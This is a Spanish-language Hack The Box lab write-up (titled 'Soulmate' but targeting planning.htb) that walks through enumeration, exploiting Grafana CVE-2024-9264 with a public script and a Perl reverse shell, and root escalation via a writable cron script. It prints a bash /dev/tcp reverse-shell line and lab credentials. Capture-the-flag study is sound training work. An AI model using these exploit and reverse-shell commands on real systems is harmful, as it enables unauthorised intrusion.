 ```yaml
---
title: "Soulmate HTB"
date: "2025-09-10"
description: "Escalada de privilegios en servicio mal configurado. Writeup de HTB."
difficulty: "Intermedio" # Puede ser 'Fácil', 'Intermedio', 'Difícil', 'Insane'
tags: ["htb", "privilege-escalation", "web", "grafana", "cve-2024-9264", "docker"]
target_ip: "10.10.11.68"
target_domain: "planning.htb"
client_name: "Hack The Box"
status: "Completed" # Útil para filtrar: 'Completed', 'WIP', 'Pending'
hero: "/img/placeholder-hero.svg"

---
```


# 📝 Soulmate HTB

![Banner SoulMate](/img/soulmatehtb.png)

**Objetivo:** `IP: 10.10.11.68` | **Dominio:** `planning.htb`
**Plataforma:** `Hack The Box` | **Dificultad:** **Intermedio**

---

## 💻 Configuración Inicial

Para asegurar la documentación completa y organizada, se creó la siguiente estructura de carpetas:

```bash
# Script para crear estructura de carpetas
#!/bin/bash

MAQUINA="soulmate" # Ejemplo
mkdir -p "$MAQUINA"/{content,nmap,scripts}

echo "Estructura creada:"
echo "├── $MAQUINA/"
echo "    ├── content/ (Archivos de la web, dumps, etc.)"
echo "    ├── nmap/ (Resultados de escaneos)"
echo "    └── scripts/ (Exploits, shell reversa, linpeas, etc.)"
````

**Credenciales Iniciales (Si existen):**

| Servicio | Usuario | Contraseña | Notas |
| :--- | :--- | :--- | :--- |
| **Web (Admin)** | `admin` | `0D5oT70Fq13EvB5r` | Encontradas vía enumeración / leak. |
| **SSH** | | | Pendiente de obtener. |

-----

## 🔎 Fase 1: Escaneo y Enumeración

### 🌐 Escaneo de Puertos (`nmap`)

Se realizó un escaneo completo de puertos (`-p-`), seguido de una detección de servicios y scripts comunes (`-sSCV`) en los puertos abiertos.

**Comandos:**

```bash
nmap -sS -p- --open -T4 -vvv -n -Pn 10.10.11.68 -oN nmap/initial_scan.txt
nmap -sSCV -p22,80 10.10.11.68 -oN nmap/service_scan.txt
```

**Resultados Destacados:**

| Puerto | Servicio | Versión | Notas |
| :--- | :--- | :--- | :--- |
| **22/tcp** | `ssh` | OpenSSH 9.6p1 | **OpenSSH 9.6p1** (Ubuntu) |
| **80/tcp** | `http` | nginx 1.24.0 | **nginx 1.24.0** (Ubuntu) |

### 🔍 Enumeración Web (Puerto 80)

El puerto 80 redirige a `http://planning.htb/`. Se añadió el dominio al archivo `/etc/hosts`.

#### Descubrimiento de Directorios (`gobuster/ffuf`)

Se utilizó **Gobuster** para encontrar rutas:

```bash
gobuster dir -u [http://planning.htb](http://planning.htb) -w /usr/share/wordlists/dirb/common.txt -t 50
```

**Directorios Encontrados:** `/img`, `/css`, `/lib`, `/js`, `/api`, `/apis`, `/apidocs`.

#### Subdominios y Vhosts

La herramienta **WhatWeb** y la inspección manual revelaron la tecnología web: **Bootstrap**, **JQuery 3.4.1**, **nginx/1.24.0**, y una mención a un posible servicio **Grafana**.

Se realizó un escaneo de subdominios, revelando un host crucial: `grafana.planning.htb`.

```bash
# Comando de ejemplo para vhosts/subdominios
gobuster vhost -u [http://planning.htb](http://planning.htb) -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
```

**Subdominio Clave:** `grafana.planning.htb` (Grafana 11.0.0).

-----

## 💥 Fase 2: Explotación (Obtención de Acceso)

### 🎯 Ataque a Grafana (CVE-2024-9264)

La instancia de **Grafana 11.0.0** en `grafana.planning.htb` presentaba la **CVE-2024-9264** (Arbitrary File Write / RCE).

**Pasos:**

1.  Se utilizaron las credenciales encontradas (`admin / 0D5oT70Fq13EvB5r`).
2.  Se identificó un *exploit* de Python en GitHub: [https://github.com/nollium/CVE-2024-9264](https://github.com/nollium/CVE-2024-9264).
3.  Se ejecutó el *exploit* con una *reverse shell* de **Perl**.

**Comando de Explotación:**

```bash
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c 'perl rev_perl.sh' [http://grafana.planning.htb](http://grafana.planning.htb)
```

**Resultado:** Obtención de una *reverse shell* como el usuario **`root`** dentro del contenedor **Docker** de Grafana.

-----

## ⬆️ Fase 3: Escalada de Privilegios (Root)

### 🚪 Pivoteo y Escape del Contenedor

Una vez dentro del contenedor (como `root`), se ejecutó `linpeas.sh` para buscar *leaks* de información y vectores de escape.

**Apuntes de la Enumeración:**

1.  **Variables de Entorno:** Se encontraron credenciales para otro usuario:
      * `GF_SECURITY_ADMIN_USER=enzo`
      * `GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!`
2.  **Tareas Programadas (`crontab.db`):** Dos tareas llamaron la atención.
      * Una tarea diaria que hace un `docker save` del contenedor `root_grafana`, lo comprime y lo cifra con **`zip -P P4ssw0rdS0pRi0T3c`**.
      * Una tarea recurrente (`* * * * *`) que ejecuta el script `/root/scripts/cleanup.sh`.

### 🔑 Compromiso de Root (Contenedor)

**Vector de Escalada:** La tarea **Cleanup** se ejecuta cada minuto, y el *script* `/root/scripts/cleanup.sh` es **escribible** por el usuario actual (`root` del contenedor).

**Explotación:**

1.  Se modificó `/root/scripts/cleanup.sh` para contener una *reverse shell* simple.
2.  Al minuto, la *reverse shell* se ejecutó con los privilegios del *host* (debido a cómo Docker ejecuta `cron` en este contexto).

**Script de Modificación (ejemplo):**

```bash
echo "bash -i >& /dev/tcp/10.10.14.X/4445 0>&1" > /root/scripts/cleanup.sh
# Luego, se esperó la conexión en el listener
```

**Credencial Root Final:** Se encontró la contraseña `P4ssw0rdS0pRi0T3c` en el comando `zip` de la tarea de *backup*. Esta podría ser una pista para otras credenciales, o la propia *password* del `root` del *host* (dependiendo de la máquina).

-----

## 📌 Resumen y Conclusiones

| Categoría | Detalle Clave |
| :--- | :--- |
| **Puertos Abiertos** | 22 (SSH), 80 (HTTP/NGINX) |
| **Servicio Clave** | Grafana 11.0.0 en `grafana.planning.htb` |
| **Credenciales Útiles** | `admin:0D5oT70Fq13EvB5r` (Web), `enzo:RioTecRANDEntANT!` (Env Var) |
| **Vulnerabilidad** | **CVE-2024-9264** (RCE en Grafana) |
| **Escalada de Privs** | **Cronjob Escribible** (`/root/scripts/cleanup.sh`) dentro del contenedor. |
| **Flag Root** | Obtenida tras el *escape* del contenedor. |
| **Notas Adicionales** | La *password* `P4ssw0rdS0pRi0T3c` de la tarea de *backup* fue una pista crucial. |

```
```